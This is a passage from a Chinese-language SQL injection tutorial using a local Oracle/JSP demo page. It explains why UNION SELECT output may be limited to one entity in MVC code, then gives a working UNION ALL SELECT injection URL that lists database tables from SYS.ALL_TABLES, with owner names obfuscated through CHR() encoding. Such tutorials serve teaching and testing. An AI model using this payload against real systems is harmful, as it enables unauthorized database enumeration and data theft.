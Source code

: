 ![enter image description here](img/img10_u15_png.jpg)

￼不过我得告诉你，UNION SELECT 查询返回的是多个结果，而在正常的业务逻辑当中我们取一条新闻是直接放到对应的实体当中的，比如我们查询的 wooyun 的厂商表：corps，那么我们做查询的很有可能是抽象出一个 corps 对象，在 DAO 层取得到单个的参数结果集，如果有多个要么报错，要么取出第一条。然后再到 controller 层把查询的结果放到请求里面。最终在输出的时候自然也就只能拿到单个的 corps 实体，这也是视图层只做展示把业务逻辑和视图分开的好处之一，等讲到 MVC 的时候试着给不懂的朋友解释一下。

再来看一下我们丑陋的在页面展示数据的代码：
￼
![enter image description here](img/img11_u32_png.jpg)

接下来的任务就是收集信息了，上面我们已经收集到数据库所有的用户的用户名和我们当前用户的权限。

获取所有的数据库表：

```
http://localhost/SqlInjection/index.jsp?id=1 UNION ALL SELECT NULL, NULL, NULL, NVL(CAST(OWNER AS VARCHAR(4000)),CHR(32))||CHR(45)||CHR(45)||CHR(45)||CHR(45)||CHR(45)||CHR(45)||NVL(CAST(TABLE_NAME AS VARCHAR(4000)),CHR(32)) FROM SYS.ALL_TABLES WHERE OWNER IN (CHR(67)||CHR(84)||CHR(88)||CHR(83)||CHR(89)||CHR(83),CHR(69)||CHR(88)||CHR(70)||CHR(83)||CHR(89)||CHR(83),CHR(77)||CHR(68)||CHR(83)||CHR(89)||CHR(83),CHR(79)||CHR(76)||CHR(65)||CHR(80)||CHR(83)||CHR(89)||CHR(83),CHR(83)||CHR(67)||CHR(79)||CHR(84)||CHR(84),CHR(83)||CHR(89)||CHR(83),CHR(83)||CHR(89)||CHR(83)||CHR(84)||CHR(69)||CHR(77),CHR(87)||CHR(77)||CHR(83)||CHR(89)||CHR(83))— 
```

连接符我用的是-转换成编码也就是 45
￼